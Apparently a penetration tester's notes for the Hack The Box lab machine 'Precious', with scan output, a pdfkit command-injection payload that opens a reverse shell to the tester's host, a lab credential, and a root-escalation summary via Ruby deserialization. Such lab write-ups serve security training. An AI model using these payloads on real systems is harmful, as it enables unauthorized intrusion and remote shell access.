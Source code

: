 # BOX NAME:

LINK: precious@HTB[](https://www.vulnhub.com/entry/kioptrix-2014-5,62/)

### **IP=10.10.11.189**

**URL=http://precious.htb**

# Remote Enumeration & Scan-outputs:

### <ins>Host Discovery</ins>

```
10.10.11.189
```

### <ins>Nmap scan</ins>

```
└─# nmap -n -sS $IP -p-
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-19 15:15 EST
Nmap scan report for 10.10.11.189
Host is up (0.046s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9999/tcp open  abyss
```

### <ins>Nikto scan</ins>

```
null
```

### <ins>Whatweb scan</ins>

```
└─# whatweb $URL | tr ',' '\n'
http://precious.htb [200 OK] Country[RESERVED][ZZ]
 HTML5
 HTTPServer[nginx/1.18.0 + Phusion Passenger(R) 6.0.15]
 IP[10.10.11.189]
 Ruby-on-Rails
 Title[Convert Web Page to PDF]
 UncommonHeaders[x-content-type-options]
 X-Frame-Options[SAMEORIGIN]
 X-Powered-By[Phusion Passenger(R) 6.0.15]
 X-XSS-Protection[1; mode=block]
 nginx[1.18.0]
```

# Fuzz

`ffuf -w /base/wordlists/web-fuzz/raft-large-directories.txt -u $URL/FUZZ/`
`ffuf -w /base/wordlists/web-fuzz/raft-large-files.txt -u $URL/FUZZ -recursion -mc 200,301,403`
`ffuf -w path/to/param_names.txt -u https://target/script.php?FUZZ=test_value -fs 4242`

```
null
```

# Special searchsploit findings:

### \[+\] Port 22 \[SSH\]

```
[+] Port 80 [HTTP]
http://precious.htb
has a html-to-pdf converter.
```

```
page vulnerable to command injection.
https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795**Payload**
[http://10.10.14.168/?name=#](http://10.10.14.168/?name= "http://10.10.14.168/?name=#"){'%20`cat /etc/passwd`'}
[http://10.10.14.168/?name=#](http://10.10.14.168/?name= "http://10.10.14.168/?name=#"){'%20`cat /etc/passwd`'}
[http://10.10.14.168/?name=#](http://10.10.14.168/?name= "http://10.10.14.168/?name=#"){'%20`bash -c 'bash -i &> /dev/tcp/10.10.14.168/31337 0>&1'`'}
```

# Local Filesystem Findings:

### **FILES OF INTEREST**

```
/home/ruby/.bundle/config
```

### **SUID**

```
44K -rwsr-xr-x 1 root root 44K Feb  7  2020 /usr/bin/newgrp
52K -rwsr-xr-x 1 root root 52K Feb  7  2020 /usr/bin/chsh
36K -rwsr-xr-x 1 root root 35K Jan 20  2022 /usr/bin/umount
60K -rwsr-xr-x 1 root root 58K Feb  7  2020 /usr/bin/chfn
180K -rwsr-xr-x 1 root root 179K Feb 27  2021 /usr/bin/sudo
72K -rwsr-xr-x 1 root root 71K Jan 20  2022 /usr/bin/su
88K -rwsr-xr-x 1 root root 87K Feb  7  2020 /usr/bin/gpasswd
64K -rwsr-xr-x 1 root root 63K Feb  7  2020 /usr/bin/passwd
56K -rwsr-xr-x 1 root root 55K Jan 20  2022 /usr/bin/mount
36K -rwsr-xr-x 1 root root 35K Feb 26  2021 /usr/bin/fusermount
52K -rwsr-xr-- 1 root messagebus 51K Oct  5 07:04 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
472K -rwsr-xr-x 1 root root 471K Jul  1  2022 /usr/lib/openssh/ssh-keysign
```

### SGID

```
ruby@precious:/var/www/pdfapp$ find / -perm -g=s -type f 2>/dev/null -exec ls -lshat {} \;
<perm -g=s -type f 2>/dev/null -exec ls -lshat {} \;
348K -rwxr-sr-x 1 root ssh 347K Jul  1  2022 /usr/bin/ssh-agent
44K -rwxr-sr-x 1 root crontab 43K Feb 22  2021 /usr/bin/crontab
32K -rwxr-sr-x 1 root shadow 31K Feb  7  2020 /usr/bin/expiry
36K -rwxr-sr-x 1 root tty 35K Jan 20  2022 /usr/bin/wall
80K -rwxr-sr-x 1 root shadow 79K Feb  7  2020 /usr/bin/chage
40K -rwxr-sr-x 1 root shadow 38K Aug 26  2021 /usr/sbin/unix_chkpwd
```

### **Dumps, outputs, other useful information**

**Kernel Info:
*file /bin/bash ; echo -e " \\n" && lsb_release -a ; echo -e "\\n" && uname -a*

```
ruby@precious:/var/www/pdfapp$ file /usr/bin/bash ; echo -e " \n" && lsb_release -a ; echo -e "\n" && uname -a
< " \n" && lsb_release -a ; echo -e "\n" && uname -a
bash: file: command not found
 

No LSB modules are available.
Distributor ID: Debian
Description:    Debian GNU/Linux 11 (bullseye)
Release:        11
Codename:       bullseye


Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64 GNU/Linux
```

# Credentials:

```
username:password

henry:Q3c1AqGHtoI0aXAYFH
```

# Hashes:

```
MD4:
MD5:
SHA1:
SHA512:
```

# Exploits and Payloads:

```
[+] CVE-2022-0847
[+] Ruby 2.x Universal RCE Deserialization Gadget Chain
```

# Writeup:

```
Started with enumeration.
Found the HTML-TO-PDF converter, figured out it was pdfkit v0.8.6.
Found the Command Injection from Snyk.io
Later on box tried the DirtyPipe exploit, did not work.
Eventually found the .bundle/config file with henrys password
henry was able to run | (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb |
figured out a way to exploit dependencies with ruby and came accross
# https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565

modified the payload to pop me a root shell. "git_set /bin/bash".
```

==PROOFS
====![72631871d47a17213a46e5066b5f28d3.png](../../_resources/72631871d47a17213a46e5066b5f28d3.png)==
